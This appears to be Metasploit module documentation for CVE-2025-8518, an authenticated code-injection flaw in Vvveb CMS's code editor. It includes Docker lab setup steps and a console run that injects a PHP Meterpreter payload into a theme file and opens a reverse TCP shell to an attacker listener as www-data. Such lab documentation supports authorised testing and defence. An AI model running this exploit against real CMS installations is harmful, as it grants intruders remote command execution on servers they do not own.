 ## Vulnerable Application

[Vvveb CMS](https://github.com/givanz/Vvveb) is vulnerable to Code Injection via the Code Editor functionality.

Unsanitized editing functionality allows attacker-controlled changes to existing files on the web-accessible filesystem, 
allowing remote authenticated attackers with access to the Code Editor to achieve code execution 
when those modified files are executed or served by the application or web server.

This vulnerability affects Vvveb CMS versions up to and including 1.0.5.
Successful exploitation may result in the remote code execution under the privileges
of the web server, potentially exposing sensitive data or disrupting survey operations.

An attacker can execute arbitrary system commands in the context of the user running the web server.

## Testing

1. Open `data/exploits/CVE-2025-8518` folder and use Docker Compose to set up the Vvveb CMS app

`docker compose up -d --build`

2. Open http://127.0.0.1:8080/ and make sure the app is available

3. Fill in the installation form with the following details:

Database engine: MySQL / MariaDB
Database host: mysql
Database name: vvveb
Database username: root
Database password: root

4. On the next form, you need to enter the admin password or provide your own.

5. Log in with your credentials at http://127.0.0.1:8080/admin
Username: admin 
Password: the one you provided in the previous step

## Scenario

### php/meterpreter/reverse_tcp

```
msf6 > use multi/http/vvveb_auth_rce_cve_2025_8518
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/vvveb_auth_rce_cve_2025_8518) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/vvveb_auth_rce_cve_2025_8518) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/vvveb_auth_rce_cve_2025_8518) > set PASSWORD 12345
PASSWORD => 12345
msf6 exploit(multi/http/vvveb_auth_rce_cve_2025_8518) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(multi/http/vvveb_auth_rce_cve_2025_8518) > run verbose=true

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Fetching CSRF token...
[+] Token successfully fetched: 
[*] Attempting login...
[+] Login successful
[*] Checking version...
[+] The target appears to be vulnerable. Detected version 1.0.5, which is vulnerable
[*] Identifying the active theme path...
[+] Theme path successfully identified: /public/themes/blog-default/theme.php
[*] Setting up payload...
[+] Payload setup complete
[*] Triggering payload...
[*] Sending stage (40004 bytes) to 172.24.0.3
[*] Meterpreter session 1 opened (172.17.0.1:4444 -> 172.24.0.3:59256) at 2025-10-18 20:08:08 -0400

meterpreter > sysinfo
Computer    : 0c6eb9a3e896
OS          : Linux 0c6eb9a3e896 6.11.2-amd64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data
```